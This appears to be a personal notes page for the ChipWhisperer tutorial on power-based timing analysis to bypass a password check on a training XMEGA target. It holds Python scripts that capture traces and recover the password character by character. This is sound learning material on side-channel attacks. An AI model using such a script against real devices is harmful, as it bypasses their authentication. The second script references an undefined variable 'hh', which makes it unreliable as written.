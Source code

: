 
# Tutorial B3-1 Timing Analysis with Power for Password Bypass

Test script for chipwhisperer tutorial : https://wiki.newae.com/Tutorial_B3-1_Timing_Analysis_with_Power_for_Password_Bypass

## One character check. 

I found a trace that worked for me around 203 units. Unfortunately this is not good enough for full password discovery.

```
"""Setup script for CWLite/1200 with XMEGA (CW303/CW308-XMEGA/CWLite target)

Configures scope settings to prepare for capturing SimpleSerial power traces
"""

# GUI compatibility
try:
    scope = self.scope
    aux_list = self.aux_list

except NameError:
    pass
    
scope.gain.gain = 45
scope.adc.samples = 25000
scope.adc.offset = 0
scope.adc.basic_mode = "rising_edge"
scope.clock.clkgen_freq = 7370000
scope.clock.adc_src = "clkgen_x4"
scope.trigger.triggers = "tio4"
scope.io.tio1 = "serial_rx"
scope.io.tio2 = "serial_tx"
scope.io.hs2 = "clkgen"

target.key_cmd = ''
target.go_cmd = ''
target.output_cmd = ''


from chipwhisperer.capture.auxiliary.ResetCW1173Read import ResetCW1173
Resetter = ResetCW1173(xmega=True, delay_ms=1200)
aux_list.register(Resetter.resetThenDelay, "before_trace")

# h0px3\n
trylist = 'abcdefghijklmnopqrstuvwxyz0123456789'
password = ''

for c in trylist:
    # Get a power trace using our next attempt
    nextPass = password + '{}'.format(c) + "\n"
    target.go_cmd = nextPass
    cw.captureN(self.scope, self.target, None, self.aux_list, self.ktp, 1)
        
    # Grab the trace and check nextTrace[203]
    nextTrace = scope.getLastTrace()
    
    # check where the power spike happens and change the values below. Mine was at 203 and I checked for values smaller than -0.135
    if nextTrace[203] < -0.135: 
        print "Success: " + c

```


## All characters

I had issues with the start point of 203 points that I identified in the first step. Keep in mind that when an attempt is made the trace is slightly different compared to when it completes and finds the password correctly. The processing trace is different. 

In the end, I observed a successful trace and worked backwards from there as well. Hence why my startPoint now is set to 344 points with a step of 36.  

![Graph](https://github.com/kxynos/Notes/raw/master/chipwhisperer/passwd-check-graph.png)

_Figure.1 Example traces that I found worked for my setup_


```
"""Setup script for CWLite/1200 with XMEGA (CW303/CW308-XMEGA/CWLite target)

Configures scope settings to prepare for capturing SimpleSerial power traces
"""

# GUI compatibility
try:
    scope = self.scope
    aux_list = self.aux_list

except NameError:
    pass
    
scope.gain.gain = 45
scope.adc.samples = 25000
scope.adc.offset = 18
scope.adc.basic_mode = "rising_edge"
scope.clock.clkgen_freq = 7370000
scope.clock.adc_src = "clkgen_x4"
scope.trigger.triggers = "tio4"
scope.io.tio1 = "serial_rx"
scope.io.tio2 = "serial_tx"
scope.io.hs2 = "clkgen"

target.key_cmd = ''
target.go_cmd = ''
target.output_cmd = ''


from chipwhisperer.capture.auxiliary.ResetCW1173Read import ResetCW1173
Resetter = ResetCW1173(xmega=True, delay_ms=1200)
aux_list.register(Resetter.resetThenDelay, "before_trace")

# password if h0px3\n
# trylist = 'abghj0px3df' # short test list
trylist = 'abcdefghijklmnopqrstuvwxyz0123456789'
password = ''

for i in range(5):
    for c in trylist:
        # Get a power trace using our next attempt
        nextPass = password + '{}'.format(c) + "\n"
        target.go_cmd = nextPass
        cw.captureN(self.scope, self.target, None, self.aux_list, self.ktp, 1)
        
        # Grab the trace
        nextTrace = scope.getLastTrace()
         
        startPoint = 344+36*i
        print hh, c
        print nextTrace[startPoint]

        # Check location 153, 225, etc. If it's too low, we've failed
        if nextTrace[startPoint] < -0.104:
            print 'found'

            
            # If we got here, we've found the right letter
            password += c
            print '{} characters: {}'.format(i+1, password)
            break
```
